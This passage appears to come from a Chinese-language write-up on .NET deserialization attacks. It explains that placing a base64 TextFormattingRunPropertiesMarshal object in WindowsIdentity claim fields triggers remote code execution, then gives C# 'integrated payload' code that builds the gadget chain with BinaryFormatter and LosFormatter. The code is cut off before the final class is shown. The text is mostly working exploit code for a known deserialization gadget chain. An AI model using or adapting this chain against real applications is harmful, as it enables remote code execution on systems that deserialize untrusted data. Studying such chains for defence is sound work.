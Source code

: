 那么在info中设置key为System.Security.ClaimsIdentity.actor或bootstrapContext或claims，值为base64之后的TextFormattingRunPropertiesMarshal对象即可触发RCE。

整合payload如下：

```csharp
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Security.Principal;
using System.Web.UI;
using System.Windows.Data;
using System.Windows.Markup;

namespace LosFormatterDeserialize
{
    class Program
    {
        static void Main(string[] args)
        {

            LosFormatter losFormatter = new LosFormatter();
            BinaryFormatter bf = new BinaryFormatter();
            using (MemoryStream memory = new MemoryStream())
            {
                TextFormattingRunPropertiesMarshal textFormattingRunPropertiesMarshal = new TextFormattingRunPropertiesMarshal();
                bf.Serialize(memory, textFormattingRunPropertiesMarshal);
                string b64payload = Convert.ToBase64String(memory.ToArray());
                WindowsIdentityIdentityMarshal windowsIdentityIdentityMarshal = new WindowsIdentityIdentityMarshal(b64payload);

                memory.Position = 0;
                losFormatter.Serialize(memory, windowsIdentityIdentityMarshal);
                memory.Position = 0;
                losFormatter.Deserialize(memory);

            }
            Console.ReadKey();
        }
    }
    [Serializable]
    public class WindowsIdentityIdentityMarshal : ISerializable
    {
        public WindowsIdentityIdentityMarshal(string b64payload)
        {
            B64Payload = b64payload;
        }

        private string B64Payload { get; }

        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(WindowsIdentity));
            info.AddValue("System.Security.ClaimsIdentity.actor", B64Payload);
            info.AddValue("System.Security.ClaimsIdentity.bootstrapContext", B64Payload);
            info.AddValue("System.Security.ClaimsIdentity.claims", B64Payload);
        }
    }
    [Serializable]
```